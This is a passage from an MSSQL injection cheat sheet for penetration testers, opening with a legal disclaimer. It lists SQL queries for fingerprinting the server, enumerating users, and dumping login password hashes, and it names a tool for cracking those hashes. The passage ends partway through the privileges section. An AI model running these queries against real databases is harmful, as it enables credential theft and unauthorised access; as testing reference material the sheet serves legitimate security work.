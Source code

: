 # MSSQL injection CheatSheet
The information contained in this document is for general information purposes only. The information is provided by the document and while we endeavour to keep the information up to date and correct, we make no representations or warranties of any kind, express or implied, about the completeness, accuracy, reliability, suitability or availability with respect to the website or the information, products, services, or related graphics contained on the website for any purpose. Any reliance you place on such information is therefore strictly at your own risk.
In no event will we be liable for any loss or damage including without limitation, indirect or consequential loss or damage, or any loss or damage whatsoever arising from loss of data or profits arising out of, or in connection with, the use of this website or the use of scripts and techniques explained. You must also be aware that any use of the techniques detailled on this document against a system you do not own or have permission to test represent a crime.

<table>
   <tbody>
      <tr>
         <th>Target</th>
         <th>Bullet</th>
      </tr>
      <tr>
         <td>Version</td>
         <td>SELECT @@version</td>
      </tr>
      <tr>
         <td>Comments</td>
         <td>SELECT 1 — comment<br>
            SELECT /*comment*/1
         </td>
      </tr>
      <tr>
         <td>Current User</td>
         <td>SELECT user_name();<br>
            SELECT system_user;<br>
            SELECT user;<br>
            SELECT loginame FROM master..sysprocesses WHERE spid = @@SPID
         </td>
      </tr>
      <tr>
         <td>List Users</td>
         <td>SELECT name FROM master..syslogins</td>
      </tr>
      <tr>
         <td>List Password Hashes</td>
         <td>SELECT name, password FROM master..sysxlogins — priv, mssql 2000;<br>
            SELECT name, master.dbo.fn_varbintohexstr(password) FROM master..sysxlogins — priv, mssql 2000.&nbsp; Need to convert to hex to return hashes in MSSQL error message / some version of query analyzer.<br>
            SELECT name, password_hash FROM master.sys.sql_logins — priv, mssql 2005;<br>
            SELECT name + ‘-’ + master.sys.fn_varbintohexstr(password_hash) from master.sys.sql_logins — priv, mssql 2005
         </td>
      </tr>
      <tr>
         <td>&nbsp;Password Cracker</td>
         <td>MSSQL 2000 and 2005 Hashes are both SHA1-based.&nbsp; <a href="https://labs.portcullis.co.uk/application/phrasen-drescher/">phrasen|drescher</a> can crack these.</td>
      </tr>
      <tr>
         <td>List Privileges</td>
         <td>
            – current privs on a particular object in 2005, 2008<br>
            SELECT permission_name FROM master..fn_my_permissions(null, ‘DATABASE’); — current database<br>